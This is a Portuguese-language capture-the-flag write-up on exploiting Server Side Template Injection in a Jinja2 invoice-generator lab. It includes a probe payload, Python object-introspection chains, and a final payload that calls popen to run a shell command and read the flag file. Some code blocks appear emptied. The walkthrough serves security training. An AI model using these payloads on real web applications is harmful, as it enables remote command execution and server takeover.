




### Gerador de Faturas Writeup - SSTI
> Desafio vulnerável a Server Side Template Injection

O Gerador de Faturas é um laboratório simples que simula uma aplicação web de criação de faturas, ele é vulnerável a Server Side Template Injection (SSTI) na rota de edição de faturas e em um parâmetro específico que se pode ver ao criar uma nova fatura. O input do usuário é concatenado diretamente no template que exibe a fatura, o que permite que um atacante injete diretivas de template do Jinja2 e, eventualmente, consiga um acesso total ao servidor.

## 1. Identificando a vulnerabilidade

Ao criar uma nova fatura:



E na url podemos ver:

```
?customer=Norton+Commander&service=Tool&amount=1000&custom_message=Norton+Commander
```

Note que todos os parâmetros são refletidos na página, podemos testar um Server Side Template Injection aqui.


Após alguns testes, digitando {{ 7*7 }} no parâmetro **custom_message** a aplicação nos retorna um bloqueio, mostrando que o desafio aqui não é tão simples quanto os anteriores.


## 2. Explorando SSTI:

Como o Jinja2 roda em Python, o objetivo do atacante é sair do contexto do template e acessar o ambiente nativo do Python para executar comandos do sistema operacional. Para isso, utiliza-se a introspecção de objetos através de atributos especiais, por exemplo:

```python
{{ "".__class__ }}
```
Isso acessa a classe de uma string. Poderiamos tentar com outros tipos de dados, já que em Python tudo em um objeto.

Como aqui não podemos injetar diretamente, vamos ter que procurar por outras alternativas. Uma delas é usar a sintaxe de código do Jinja2 (  ).

Nossa única saída aqui é usa condicionais, tendo em vista que a restrição das chaves não nos permite visualizar os valores diretamente.

Injetando o código abaixo:

```python
Fatura validada
```

Conseguimos:



O que mostra que a nossa expressão condicional foi interpretada pelo Jinja2. A partir daqui a exploração fica bem longa e necessita de uma série de testes, o que torna essa exploração bem massante. Por um outro lado, a opção de editar fatura não apresenta a mesma proteção, então podemos explorar o SSTI da maneira tradicional:


```python
{{ "".__class__.__mro__[-1].__subclasses__() }}
```



Então injetamos o payload final:

```python
{{ "".__class__.__mro__[-1].__subclasses__()[155].__init__.__globals__['popen']('cat flag.txt').read() }}
```

A aplicação então retorna:




E o ctf está concluído.